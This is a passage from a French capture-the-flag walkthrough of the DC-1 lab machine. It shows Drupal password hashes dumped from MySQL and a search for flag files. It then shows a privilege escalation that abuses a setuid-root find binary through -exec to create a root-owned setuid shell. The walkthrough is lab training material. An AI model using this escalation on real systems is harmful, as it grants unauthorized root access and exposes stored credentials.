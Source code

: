 On peut alors extraire les hashes mais c'est une impasse.

```console
mysql> select name, pass from users;
+---------+---------------------------------------------------------+
| name    | pass                                                    |
+---------+---------------------------------------------------------+
|         |                                                         |
| admin   | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred    | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
| devloop | $S$DRfdwx9I86.dRUke7Y/WkWNOW0g7ExVzJOSGu9IHflUw4pAQoOFN |
+---------+---------------------------------------------------------+
4 rows in set (0.00 sec)
```

Avec une recherche plus vaste on trouve le dernier flag. On remarque un comportement irrationnel avec ce flag qu'on ne devrait normalement pas trouver, car présent dans le dossier `/root` :

```console
www-data@DC-1:/var/www$ find / -iname "*flag*.txt" -ls
 33005    4 -rw-r--r--   1 flag4    flag4         125 Feb 19  2019 /home/flag4/flag4.txt
150800    4 -rw-r--r--   1 www-data www-data       52 Feb 19  2019 /var/www/flag1.txt
 33060    4 -rw-r--r--   1 root     root          173 Feb 19  2019 /root/thefinalflag.txt
www-data@DC-1:/var/www$ cat /root/thefinalflag.txt
cat: /root/thefinalflag.txt: Permission denied
www-data@DC-1:/var/www$ ls -ald /root/
drwx------ 4 root root 4096 Feb 28  2019 /root/
www-data@DC-1:/var/www$ ls /root/
ls: cannot open directory /root/: Permission denied
www-data@DC-1:/var/www$ which find
/usr/bin/find
www-data@DC-1:/var/www$ ls -al /usr/bin/find
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find
```

C'est donc le binaire `find` qui est setuid root. On va utiliser l'option `-exec` pour escalader nos privilèges :

```console
www-data@DC-1:/var/www$ cp /bin/dash gotroot
www-data@DC-1:/var/www$ find / -iname "thefinalflag*.txt" -exec chown root:root gotroot \;
www-data@DC-1:/var/www$ find / -iname "thefinalflag*.txt" -exec chmod 4755 gotroot \;
www-data@DC-1:/var/www$ ./gotroot 
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
thefinalflag.txt
# cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```
